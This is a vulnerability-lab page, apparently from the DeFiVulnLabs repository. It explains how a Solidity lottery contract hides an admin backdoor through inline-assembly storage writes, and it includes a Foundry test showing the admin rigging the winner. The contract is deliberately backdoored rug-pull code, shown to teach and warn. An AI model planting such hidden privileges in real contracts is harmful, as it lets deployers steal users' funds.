

# Hidden Backdoor in Contract 
[Backdoor-assembly.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Backdoor-assembly.sol)   
**Name:** Hidden Backdoor in Contract:

**Description:**  
In this contract, an apparently fair 'LotteryGame' contract is subtly designed to allow
a hidden privilege to the contract deployer/administrator.
This is achieved through the use of assembly level access to storage variables,
where a referee function is designed to provide an administrative backdoor.
The 'pickWinner' function appears to randomly pick a winner, but in reality,
it allows the administrator to set the winner.
This bypasses the usual access controls and can be used to drain the prize `pool`
by an unauthorized user, acting as a type of rug pull.

An attacker can manipulate smart contracts as a backdoor by writing inline assembly.
Any sensitive parameters can be changed at any time.
``  
**Scenario:**  
Lottery game: anyone can call pickWinner to get prize if you are lucky.
Refers to JST contract backdoor. many rugged style's contract has similar pattern.
Looks like theres is no setwinner function in contract, how admin can rug?

**LotteryGame** **Contract:**  
```
contract LotteryGame {
    uint256 public prize = 1000;
    address public winner;
    address public admin = msg.sender;

    modifier safeCheck() {
        if (msg.sender == referee()) {
            _;
        } else {
            getkWinner();
        }
    }

    function referee() internal view returns (address user) {
        assembly {
            // load admin value at slot 2 of storage
            user := sload(2)
        }
    }

    function pickWinner(address random) public safeCheck {
        assembly {
            // admin backddoor which can set winner address
            sstore(1, random)
        }
    }

    function getkWinner() public view returns (address) {
        console.log("Current winner: ", winner);
        return winner;
    }
}
```
****How to Test:****

forge test --contracts src/test/**Backdoor-assembly.sol** -vvvv

```
// Define a public function named testBackdoorCall
function testBackdoorCall() public {
    // Declare two addresses, alice and bob, and set their values to the addresses retrieved from vm.addr() with IDs 1 and 2, respectively.
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // Deploy a new instance of the LotteryGame contract and store the reference in LotteryGameContract variable.
    LotteryGameContract = new LotteryGame();

    // Print a message indicating that Alice is going to call pickWinner function, but she won't actually be the winner.
    console.log("Alice performs pickWinner, of course she will not be a winner");

    // Call the prank function of vm with Alice's address as an argument, implying some manipulation may occur.
    vm.prank(alice);

    // Call the pickWinner function of LotteryGameContract, passing Alice's address as an argument.
    LotteryGameContract.pickWinner(address(alice));

    // Print the current prize of the lottery after the pickWinner function call.
    console.log("Prize: ", LotteryGameContract.prize());

    // Print a message indicating that the admin is going to set the winner to drain out the prize.
    console.log("Now, admin sets the winner to drain out the prize.");

    // Call the pickWinner function of LotteryGameContract again, but this time passing Bob's address as an argument.
    LotteryGameContract.pickWinner(address(bob));

    // Print the address of the winner as manipulated by the admin.
    console.log("Admin manipulated winner: ", LotteryGameContract.winner());
```
Red box: malicios owner can win the lottery.  
